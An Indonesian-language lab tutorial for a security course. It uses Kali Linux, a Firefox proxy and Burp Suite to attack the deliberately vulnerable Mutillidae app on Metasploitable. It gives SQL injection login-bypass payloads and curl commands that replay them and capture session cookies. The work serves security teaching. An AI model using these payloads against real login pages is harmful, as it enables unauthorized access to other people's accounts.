 Lesson 6
--------
### Section 6: Open Console Terminal and Retrieve IP Address
- **Step 1**    : Buka Terminal Kali Linux
- **Step 2**    : Dapatkan IP address dari Kali Linux
    ```
    ifconfig
    ```
    - IP address yang didapatkan `10.151.64.195`
    - VM Kali Linux ini akan digunakan sebagai penyerang Metasploitable
    ![](/assets/lesson-6/ifconfig.png)

### Section 7: Start Web Browser Session to Mutillidae
- **Step 1**    : Buka Mozilla Firefox
- **Step 2**    : Buka Multilidae
    ![](/assets/lesson-6/open_multilidae.png)

### Section 8: Go To Login Page
- **Step 1**    : Klik Login/Register
    ![](/assets/lesson-6/click-login.png)

### Section 9: Configure Firefox Proxy Settings
- **Step 1**    : Buka Preference > Advanced > Network > Settings...
- **Step 2**    : Konfirgurasi Proxy
    - Klik **Manual Proxy Configuration**
    - Ketik `127.0.0.1` di kolom **HTTP Proxy**
    - Ketik `8080` di kolom **Port**
    - Check **Use this proxy server for all protocols**
    - Klik Ok
    - Klik Close
    ![](/assets/lesson-6/config-proxy.png)
    
### Section 10: Configure Burpsuite Settings
- **Step 1**    : Buka Burpsuite melalui Applications > Web Application Analysis > Burpsuite
    ![](/assets/lesson-6/VirtualBox_kali_19_12_2017_12_27_52.png)
- **Step 2**    : Pilih **Temporary project**, lalu **next**
    ![](/assets/lesson-6/temp_project.png)
- **Step 3**    : Pilih **Use Burp defaults**, lalu **Start Burp**
    ![](/assets/lesson-6/burp_config.png)
- **Step 4**    : Buka Proxy > Options, dan pastikan **Port** berupa 8080
    ![](/assets/lesson-6/burp_proxy.png)
- **Step 5**    : Buka Proxy > Intercept, ubah **Intercept is on** menjadi **Intercept is off**
    ![](/assets/lesson-6/proxy-intercept.png)
    
### Section 11: SQL Injection: By-Pass Password Without Username (Obtain Access #1)
- **Step 1**    : Buka Login/Register
- **Step 2**    : Ketik `' or 1=1-- ` di kolom **Name** dengan spasi di akhir `-- `
- **Step 3**    : Klik Login
    ![](/assets/lesson-5/login2.png)
- **Step 4**    : Anda akan berhasil login dengan akun Admin karena Admin berada pada urutan paling atas pada database. Dengan kondisi `1=1` maka akan menghasilkan kondisi yang selalu benar dan `-- ` berguna untuk comment pada SQL, karena itu query selanjutnya akan dibatalkan **(AND password='')**.
    ![](/assets/lesson-5/login2_berhasil.png)
    - Query yang dihasilkan:
    ```
    SELECT * FROM accounts WHERE username='' or 1=1-- ' AND password=''
    ```
    - Query yang sebenarnya dikerjakan:
    ```
    SELECT * FROM accounts WHERE username='' or 1=1
    ```
- **Step 5**    : Lihat data request **POST**
    - Klik Proxy Tab
    - Klik HTTP History
    - Klik baris yang berisi `/mutillidae/index.php?page=login.php`
    - Klik Request Tab
    _ Klik Raw Tab
    - Lihat **POST** Data String        
        ```
        username=%27+or+1%3D1--+&password=&login-php-submit-button=Login
        ```
        - `%27` adalah petik satu (')
        - `+` adalah spasi
        - `%3D` adalah sama dengan (=)
        ![](/assets/lesson-6/obtain_1.png)
        
### Section 12: Simulate CURL SQL Injection: (Obtain Access #1)
- **Step 1**    : Klik Logout
- **Step 2**    : Gunakan Curl untuk mekakukan login dengan **POST** data yang didapatkan dengan Burpsuite pada Section 11
    ```
    curl -b crack_cookies.txt -c crack_cookies.txt --user-agent "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)" --data "username=%27+or+1%3D1--+&password=&login-php-submit-button=Login" --location "http://10.151.36.64/mutillidae/index.php?page=login.php" > login1.txt
    ```
    - menampilkan hasil "Logged In Admin"
        ```
        grep "Logged In" login1.txt
        ```
    - menampilkan **session cookies** beserta **PHP session ID** (PHPSESSID)
        ```
        cat crack_cookies.txt
        ```
    ![](/assets/lesson-6/obtain_1_curl.png)
    
### Section 13: SQL Injection: Single Quote Test On Password Field (Obtain Access #2)
- **Step 1**    : Buka Login/Register.
- **Step 2**    : Ketik `samurai` di kolom **Name**.
- **Step 3**    : Klik Kanan di kolom **Password**.
- **Step 4**    : Klik **Inspect Element**.
    ![](/assets/lesson-5/inspect-element-password.png)
- **Step 5**    : Ganti `password` dengan kata `text` pada elemen **type**. Ganti elemen maxlength menjadi `50` dan elemen size menjadi `50`
    ![](/assets/lesson-5/inspect-password-size.png)
- **Step 6**    : Ketik `' or (1=1 and username='samurai')-- ` di kolom **Password**. Jangan lupa memberikan spasi setelah `-- `
- **Step 7**    : Klik Login. Perhatikan kolom password sudah tidak lagi tersensor dengan bintang karena **type** sudah diganti menjadi `text`.
    ![](/assets/lesson-5/non-obfused-pass-2.png)
    - Anda akan berhasil login sebagai `samurai`
    ![](/assets/lesson-5/samurai-logged-in.png)
    - Query yang dihasilkan
    ```
    SELECT * FROM accounts WHERE username='samurai' AND password='' or (1=1 and username='samurai')-- '
    ```
- **Step 8**    : Lihat data request **POST**
    - Klik Proxy Tab
    - Klik HTTP History
    - Klik baris yang berisi `/mutillidae/index.php?page=login.php`
    - Klik Request Tab
    - Klik Raw Tab
    - Block semuta teks lalu klik kanan
    - Klik "Copy to File"
        ![](/assets/lesson-6/obtain_2.png)
    - Simpan sebagai `burp2.txt`
- **Step 9**    : Lihat Post Data
    - `grep -i cookie burp2.txt`
    - `grep -i username burp2.txt`
    ![](/assets/lesson-6/burp2-txt.png)
- **Step 10**    : Logout dan tutup Mozilla Firefox

### Section 14: Simulate cURL SQL Injection: (Obtain Access #2)
- **Step 1**    : Buka Terminal
- **Step 2**    : Hapus file crack_cookies.txt
    ```
    rm crack_cookies.txt
    ```
- **Step 3**    : Gunakan **POST** Data dari burp2.txt
    ```
    grep -i username burp2.txt
    ```
- **Step 4**    : Lakukan Autentikasi menggunakan Curl
    ```
    curl -b crack_cookies.txt -c crack_cookies.txt --user-agent "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)" --data "username=samurai&password=%27+or+%281%3D1+and+username%3D%27samurai%27%29--+&login-php-submit-button=Login" --location "http://10.151.36.64/mutillidae/index.php?page=login.php" > login2.txt
    ```
- **Step 5**    : Cek status Autentikasi
    ```
    grep "Logged In" login2.txt
    ```
- **Step 5**    : menampilkan **session cookies** beserta **PHP session ID** (PHPSESSID)
    ```
    Cat crack_cookies.txt
    ```



    